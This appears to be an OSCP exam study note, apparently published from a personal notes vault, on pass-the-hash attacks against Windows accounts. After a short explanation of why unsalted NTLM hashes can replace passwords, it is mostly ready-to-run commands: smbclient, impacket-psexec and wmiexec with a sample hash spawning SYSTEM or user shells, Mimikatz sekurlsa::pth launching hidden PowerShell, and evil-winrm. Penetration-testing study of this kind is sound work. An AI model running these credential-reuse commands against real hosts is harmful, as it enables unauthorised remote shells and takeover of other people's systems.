 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/h. Password Attacks/6. Pass-the-Hash/"}
---
```


- PtH is a techique where a valid combination of username and a NTLM hash will authenticate a user. This is without a plaintext password.
- It is possible because NTLM/LM hashes are not salted and remain static between sessions.
- They can even be used to authenticate to another machine with the same user and password.
- Note: The targeted user most often needs to be Administrator, or be configured in a certain way to obtain successful code execution. This is a thing since Windows Vista.
- PtH can be performed against protocols that support authentication with NTLM hashes, such as: SMB, RDP, WinRM.
- Tools which can perform PtH include: smbclient, CrackMapExec, psexec.py (Impacket), and Mimikatz.

------------

### PtH Attack with SMBClient:
```bash
smbclient \\\\192.168.X.X\\secrets -U Administrator --pw-nt-hash <hash>
```

------------

### PtH NT_AUTHORITY Shell with PSExec:
- PSExec searches for a writable share and uploads an executable to it. The executable then registers as a Windows service and starts running, resulting in a shell always as SYSTEM.
- If not command is specified to be run in the end a cmd-shell will spawn instead.
- Hash arguments are read as LMHash:NTHash. If only one of them is used fill the other with 32 0's.
- Example which will spawn a shell from a NTLM hash:
```powershell
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

----------
### PtH User Shell with WMIExec:
- Obtains a shell as the user used for authentication and not SYSTEM.
- Example:
```powershell
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

------------
### PtH with Mimikatz:
```
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell -w hidden”

Alt.
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:…
.\PsExec.exe \\172.23.1.100 cmd.exe
```

-------------
### PtH with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -H <ntlm-hash>
```